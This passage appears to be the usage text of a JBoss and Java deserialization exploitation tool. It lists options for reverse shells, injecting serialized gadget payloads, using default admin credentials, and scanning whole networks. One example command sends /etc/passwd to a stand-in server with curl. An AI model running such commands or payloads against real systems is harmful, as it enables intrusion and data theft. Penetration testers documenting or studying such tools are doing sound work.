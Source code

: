 ```
  --jboss-login LOGIN:PASS, -J LOGIN:PASS
                        JBoss login and password for exploit admin-console in
                        JBoss 5 and JBoss 6 (default: admin:admin)
  --timeout TIMEOUT     Seconds to wait before timeout connection (default 3)

Standalone mode:
  -host HOST, -u HOST   Host address to be checked (eg. -u
                        http://192.168.0.10:8080)

Advanced Options (USE WHEN EXPLOITING JAVA UNSERIALIZE IN APP LAYER):
  --reverse-host RHOST:RPORT, -r RHOST:RPORT
                        Remote host address and port for reverse shell when
                        exploiting Java Deserialization Vulnerabilities in
                        application layer (for now, working only against *nix
                        systems)(eg. 192.168.0.10:1331)
  --cmd CMD, -x CMD     Send specific command to run on target (eg. curl -d
                        @/etc/passwd http://your_server)
  --windows, -w         Specifies that the commands are for rWINDOWS System$
                        (cmd.exe)
  --post-parameter PARAMETER, -H PARAMETER
                        Specify the parameter to find and inject serialized
                        objects into it. (egs. -H javax.faces.ViewState or -H
                        oldFormData (<- Hi PayPal =X) or others) (DEFAULT:
                        javax.faces.ViewState)
  --show-payload, -t    Print the generated payload.
  --gadget {commons-collections3.1,commons-collections4.0,groovy1}
                        Specify the type of Gadget to generate the payload
                        automatically. (DEFAULT: commons-collections3.1 or
                        groovy1 for JenKins)
  --load-gadget FILENAME
                        Provide your own gadget from file (a java serialized
                        object in RAW mode)
  --force, -F           Force send java serialized gadgets to URL informed in
                        -u parameter. This will send the payload in multiple
                        formats (eg. RAW, GZIPED and BASE64) and with
                        different Content-Types.

Auto scan mode:
  -network NETWORK      Network to be checked in CIDR format (eg. 10.0.0.0/8)
  -ports PORTS          List of ports separated by commas to be checked for
                        each host (eg. 8080,8443,8888,80,443)
  -results FILENAME     File name to store the auto scan results

File scan mode:
  -file FILENAME_HOSTS  Filename with host list to be scanned (one host per
                        line)
  -out FILENAME_RESULTS
                        File name to store the file scan results

```


Questions, problems, suggestions and etc:
----

* joaomatosf@gmail.com

